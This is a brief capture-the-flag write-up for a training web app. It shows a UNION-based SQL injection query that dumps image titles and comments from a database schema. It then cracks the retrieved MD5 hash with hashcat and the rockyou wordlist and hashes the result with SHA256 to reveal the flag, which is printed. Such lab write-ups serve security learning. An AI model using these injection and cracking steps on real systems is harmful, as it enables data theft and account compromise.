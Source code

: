 # SQL Injection Search Images

This writeup is tiny, because it's the same exploit as SQL_Injection_Members..
We just have to explore another table and schema of the database.

```
1 UNION SELECT title,comment FROM Member_images.list_images
```

With _title_ and _comment_ columns in _Member_images_ schema from _list_images_ table we got,
```
ID: 1 UNION SELECT title,comment FROM Member_images.list_images
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

In kali linux, as the comment says us, we can decode this MD5 hash.

```
echo -n 1928e8083cf461a51303633093573c46 > images.hash
hashcat -m0 -a0 images.hash /usr/share/wordlists/rockyou.txt --force
```

It works and we found "albatroz".
```
1928e8083cf461a51303633093573c46:albatroz                 
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We can encrypt it in SHA256 with CyberChef and we got the flag!

https://gchq.github.io/CyberChef/#recipe=SHA2('256',64,160)&input=YWxiYXRyb3o

```
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```
